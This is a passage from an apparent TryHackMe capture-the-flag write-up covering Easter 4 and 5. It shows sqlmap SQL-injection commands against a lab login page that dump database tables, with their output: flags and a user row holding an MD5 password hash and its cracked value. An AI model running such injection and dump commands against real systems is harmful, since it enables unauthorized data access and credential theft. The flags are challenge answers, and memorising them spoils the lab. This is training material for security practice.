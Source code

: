 use `qlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username \
  --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T nothing_inside --dump
` to get flag from table nothing here
```bash
[12:08:27] [INFO] retrieving the length of query output
[12:08:27] [INFO] retrieved: 23
[12:09:09] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

```

Flag is `THM{1nj3c7_l1k3_4_b055}`

** Easter 5 **

so we have structure of `user` table run this `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username \
  --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T user --dump
` to dump all content from that table.
```bash
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------------+----------+
| password                                 | username |
+------------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b (cutie) | DesKel   |
| He is a nice guy, say hello for me       | Skidy    |
+------------------------------------------+----------+
```
Use this credential to acces login and get the flag
![img](CTF_img/THM_CTFVOL2/Flg5_1.png)
Flag is: THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}
